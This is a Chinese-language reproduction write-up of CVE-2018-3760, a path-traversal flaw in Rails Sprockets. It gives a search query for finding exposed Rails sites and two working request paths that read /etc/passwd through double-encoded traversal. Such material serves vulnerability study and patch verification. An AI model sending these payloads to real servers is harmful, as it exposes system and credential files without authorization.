



# Rails sprockets 任意文件读取漏洞 CVE-2018-3760

## 漏洞描述

Ruby On Rails 在开发环境下使用 Sprockets 作为静态文件服务器，Ruby On Rails 是著名 Ruby Web 开发框架，Sprockets 是编译及分发静态资源文件的 Ruby 库。

Sprockets 3.7.1 及之前版本中，存在一处因为二次解码导致的路径穿越漏洞，攻击者可以利用%252e%252e/来跨越到根目录，读取或执行目标服务器上任意文件。

## 漏洞影响

```
Sprockets < 3.7.1
```

## 网络测绘

```
title="Ruby On Rails"
```

## 漏洞复现

主页面



先获取绝对路径

```
/assets/file:%2f%2f/etc/passwd
```



再利用 POC 读取文件

```
/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd
```


